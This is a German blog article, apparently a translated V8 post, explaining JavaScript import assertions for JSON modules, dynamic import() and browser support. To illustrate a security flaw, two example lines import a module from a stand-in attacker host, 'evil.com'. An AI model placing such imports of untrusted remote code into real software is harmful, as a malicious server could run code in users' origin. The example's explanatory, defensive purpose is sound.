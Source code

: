 ```yaml
---
title: 'Importbedingungen'
author: 'Dan Clark ([@dandclark1](https://twitter.com/dandclark1)), entschlossener Importeur von Importbedingungen'
avatars:
  - 'dan-clark'
date: 2021-06-15
tags:
  - ECMAScript
description: 'Importbedingungen ermöglichen es, dass Modulimportanweisungen zusätzliche Informationen neben dem Modulspezifizierer enthalten'
tweet: ''
---
```


Die neue Funktion [Importbedingungen](https://github.com/tc39/proposal-import-assertions) ermöglicht es, dass Modulimportanweisungen zusätzliche Informationen neben dem Modulspezifizierer enthalten. Eine erste Anwendung dieser Funktion besteht darin, JSON-Dokumente als [JSON-Module](https://github.com/tc39/proposal-json-modules) zu importieren:

<!--truncate-->
```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from './foo.json' assert { type: 'json' };
console.log(json.answer); // 42
```

## Hintergrund: JSON-Module und MIME-Typ

Eine natürliche Frage wäre, warum ein JSON-Modul nicht einfach wie folgt importiert werden könnte:

```javascript
import json from './foo.json';
```

Die Webplattform überprüft den MIME-Typ einer Modulressource auf Gültigkeit, bevor sie ausgeführt wird, und theoretisch könnte dieser MIME-Typ auch verwendet werden, um zu bestimmen, ob die Ressource als JSON- oder als JavaScript-Modul behandelt werden soll.

Es gibt jedoch ein [Sicherheitsproblem](https://github.com/w3c/webcomponents/issues/839) beim Verlassen auf den MIME-Typ allein.

Module können plattformübergreifend importiert werden, und ein Entwickler könnte ein JSON-Modul von einer Drittanbieterquelle importieren. Sie könnten dies als grundsätzlich sicher betrachten, selbst von einem nicht vertrauenswürdigen Drittanbieter, solange das JSON ordnungsgemäß bereinigt wird, da der Import von JSON kein Skript ausführt.

Allerdings kann ein bösartiges Drittanbieterskript in diesem Szenario tatsächlich ausgeführt werden, da der Drittanbieterserver unerwartet mit einem JavaScript-MIME-Typ und einer schädlichen JavaScript-Nutzlast antworten könnte, wodurch im Domain-Bereich des Importeurs Code ausgeführt wird.

```javascript
// Führt JS aus, wenn evil.com mit einem
// JavaScript-MIME-Typ antwortet (z. B. `text/javascript`)!
import data from 'https://evil.com/data.json';
```

Dateiendungen können nicht verwendet werden, um die Bestimmung des Modultyps zu treffen, da sie [kein verlässlicher Indikator für den Inhaltstyp im Web sind](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md). Stattdessen verwenden wir Importbedingungen, um den erwarteten Modultyp anzugeben und diesen Privilegieneskalationsfehler zu verhindern.

Wenn ein Entwickler ein JSON-Modul importieren möchte, muss er eine Importbedingung verwenden, um anzugeben, dass es sich um JSON handelt. Der Import schlägt fehl, wenn der über das Netzwerk empfangene MIME-Typ nicht dem erwarteten Typ entspricht:

```javascript
// Schlägt fehl, wenn evil.com eine Antwort mit einem Nicht-JSON-MIME-Typ gibt.
import data from 'https://evil.com/data.json' assert { type: 'json' };
```

## Dynamischer `import()`

Importbedingungen können auch an [dynamische `import()`](https://v8.dev/features/dynamic-import#dynamic) mit einem neuen zweiten Parameter übergeben werden:

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import('./foo.json', {
  assert: { type: 'json' }
});
console.log(jsonModule.default.answer); // 42
```

Der JSON-Inhalt ist der Standardexport des Moduls, daher wird er über die `default`-Eigenschaft des von `import()` zurückgegebenen Objekts referenziert.

## Fazit

Derzeit ist die einzige festgelegte Verwendung von Importbedingungen die Spezifikation des Modultyps. Die Funktion wurde jedoch so konzipiert, dass sie beliebige Schlüssel/Wert-Paare für Bedingungen zulässt, sodass zusätzliche Verwendungen in Zukunft hinzugefügt werden können, wenn es sich als nützlich erweist, Modulimporte auf andere Weise einzuschränken.

Währenddessen sind JSON-Module mit der neuen Syntax für Importbedingungen standardmäßig in Chromium 91 verfügbar. Auch [CSS-Modulscripte](https://chromestatus.com/feature/5948572598009856) sind bald verfügbar, die dieselbe Syntax für Modultyp-Bedingungen verwenden.

## Unterstützung für Importbedingungen

<feature-support chrome="91 https://chromestatus.com/feature/5765269513306112"
                 firefox="nein"
                 safari="nein"
                 nodejs="nein"
                 babel="ja https://github.com/babel/babel/pull/12139"></feature-support>
